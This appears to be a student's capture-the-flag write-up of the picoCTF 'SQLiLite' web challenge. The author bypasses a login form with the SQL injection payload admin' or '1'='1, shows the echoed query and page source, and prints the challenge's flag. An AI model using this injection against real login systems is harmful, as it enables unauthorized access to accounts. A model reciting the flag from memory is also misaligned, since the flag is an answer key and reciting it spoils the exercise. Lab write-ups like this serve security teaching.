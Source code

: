 #  SQLiLite
- Category : Web Exploitation
- Points : 300
- Flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_147ec287}



## Challenge

Can you login to this website? Try to login here.

Hint: admin is the user you want to login as.

## Solve

1) I opened the website and looked around. It was just a login screen with `Username:` and `Passowrd:` input boxes. 
2) Using the hint that admin is the user I want to log in as, I instantly knew i would have to do an SQL injection. I also noticed that whenever I inputed something, It would print it at the top of the page in like so: 

```
username: admin?
password: password
SQL query: SELECT * FROM users WHERE name='admin?' AND password='password'

Login failed.
```

3) I then researched some good methods, and came across: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

4) I used `admin' or '1'='1` because I knew the username is `admin` and because I knew from previous C3T lessons that `or 1=1--` was a basic method. 
5) After this the screen changed to `Logge in! But can you see the flag, it is in plainsight.`. I then looked at the pages source code below and found the flag. 

```
<pre>username: admin&#039; or &#039;1&#039;=&#039;1
password: 
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or &#039;1&#039;=&#039;1&#039; AND password=&#039;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_147ec287}</p>
```


## Thoughts

I really liked this challenge because it combined SQL injection and hidden HTML file types. I also thoguht it was interesting that the site printed out my inputes to the username and password field which I feel like I've seen in a previous challenge before.






